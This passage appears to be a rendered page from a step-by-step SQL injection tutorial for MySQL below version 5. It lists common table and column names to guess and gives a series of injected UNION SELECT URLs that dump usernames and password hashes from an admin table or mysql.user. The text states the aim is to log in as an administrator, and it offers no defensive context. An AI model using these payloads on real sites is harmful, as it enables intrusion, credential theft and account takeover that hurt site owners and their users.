    Knowing the version of MySQL is important as this determines how we can find the table and column name. If the version 
   of MYSQL is below version 5 (i.e. 4.1.33, 4.1.12...) we will have to try guess the table and column name

   **Here are a list of common table names:** user/s, admin/s, member/s 

   **Here are a list of common column names:** username, user, usr, user_name, password, pass, passwd, pwd etc...

   **Here is an example of how to check a table name:**
   ```
   http://mysite/products.php?id=5 union all select 1,2,3 from admin/* 
   ```
   
   If we see a number on the screen like before e.g. the number 2 then we know that the admin table exists.

   **Here is an example of how to check a column name:**
   ```
   http://mysite/products.php?id=5 union all select 1,username,3 from admin/* 
   ```

   If you get an error, then try a different column name. But if a username is displayed on screen e.g. admin, or superadmin etc...
   then we know we have successfully found a correct column

   Next let's see if the column password exists
   ```
   http://mysite/products.php?id=5 union all select 1,password,3 from admin/* (if you get an error, then try the other column name)
   ```
   
   If you get an error, then try a different column name. But if a password is displayed on screen e.g. plaintext, or md5 hash, mysql hash, sha1...
   then we know we have been successful.
   
   Now let's complete the query using the concat() function to join the strings
   ```
   http://mysite/products.php?id=5 union all select 1,concat(username,0x3a,password),3 from admin/*
   ```
   **Note:** That the 0x3a is the hex value for a colon " : " , or we could also use char(58) which is the ascii value for a colon.
   ```
   http://mysite/products.php?id=5 union all select 1,concat(username,char(58),password),3 from admin/*
   ```
   
   Now we should get the username and password displayed on the screen, i.e admin:admin or admin:somehash

   Once you have this you can login as an admin user or some superuser

   If can't manage to guess the right table name, you can always try mysql.user (default)
   ```
   http://mysite/products.php?id=5 union all select 1,concat(user,0x3a,password),3 from mysql.user/*
   ```
   